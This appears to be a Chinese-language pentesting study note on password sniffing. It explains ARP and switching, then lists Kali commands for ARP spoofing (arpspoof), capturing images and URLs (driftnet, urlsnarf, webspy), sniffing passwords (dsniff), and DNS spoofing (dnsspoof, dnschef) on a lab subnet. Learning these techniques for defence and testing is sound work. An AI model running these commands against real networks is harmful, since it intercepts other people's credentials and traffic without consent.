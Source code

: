 
# 密码嗅探

* 简介
* 手动欺骗并抓包

## 简介

* 二、三层地址
    * IP 网络到网络
    * MAC 主机到主机
* 交换机与HUB
    * HUB全端口转发
    * 交换机根据学习地址转发
    * 混杂模式抓包

* ARP协议
    * 免费ARP
    * 基于广播学习
    * 以太网头、ARP头
    * 请求、响应相对独立
    * 基于传闻的协议
* 手动修改数据包实现ARP欺骗
    * omnipeek

## 手动欺骗并抓包
* arp 欺骗
``` 
 root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
 root@kali:~# arpspoof -t 10.10.10.133 -r 10.10.10.1

```

* 网络嗅探
``` 
 # 实时显示图片
 root@kali:~# driftnet -i eth0 
 # -a 不要在屏幕上显示图像，而是将其保存到一个临时目录中，并在标准输出上公布它们的名称。
 # -d 指定目录
 # -s 抓取声音
 root@kali:~# driftnet -i eth0 -a -d testdir -s

 # 抓取 URL
 root@kali:~# webspy -i eth0 10.10.10.133
 root@kali:~# urlsnarf -i eth0

 # 嗅探密码
 # -m：自动协议检测
 root@kali:~# dsniff -i eth0 -m
 # 支持的协议类型
 root@kali:~# cat /usr/lib/x86_64-linux-gnu/dsniff.services

 # dns 欺骗
 dnsspoof -i eth0 -f /usr/share/dsniff/dnsspoof.hosts

```
* DNS欺骗代理
``` 
 root@kali:~# dnschef --fakeip=10.10.10.2 --fakedomains=www.google.com,www.youtube.com --interface 10.10.10.131 -q
 root@kali:~# netstat -tulnp | grep 53

```

* 欺骗综合工具 PytheM
```  
 root@kali:~# git clone https://github.com/m4n3dw0lf/PytheM/
 root@kali:~/PytheM# cat README.md

```


